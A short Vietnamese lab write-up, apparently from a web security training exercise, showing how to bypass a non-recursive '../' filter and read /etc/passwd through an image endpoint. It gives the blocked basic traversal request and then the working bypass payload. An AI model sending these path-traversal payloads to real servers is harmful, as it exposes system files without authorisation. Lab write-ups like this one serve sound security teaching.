




# Lab 03: Non-Recursive Strip Bypass

## Mục tiêu
Khai thác Path Traversal để đọc `/etc/passwd` khi ứng dụng xóa chuỗi `../` theo kiểu non-recursive.

## Đề bài

<br><br>

## Bước 1: Lấy endpoint ảnh
Mở một ảnh sản phẩm, ta thấy request dạng:

```http
GET /image?filename=61.jpg
```


<br><br>

## Bước 2: Thử payload traversal cơ bản
Gửi payload:

```http
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd HTTP/2
```

Server trả `"No such file"` vì chuỗi `../` đã bị strip.


<br><br>

## Bước 3: Bypass non-recursive strip
Dùng payload:

```http
GET /image?filename=....%2f%2f....%2f%2f....%2f%2fetc%2fpasswd HTTP/2
```

Ý tưởng: sau khi bộ lọc xóa một lần `../`, chuỗi còn lại trở thành `../../../etc/passwd`, nên vẫn traversal thành công.


<br><br>

## Kết quả
Response trả về nội dung `/etc/passwd`, lab được solve.
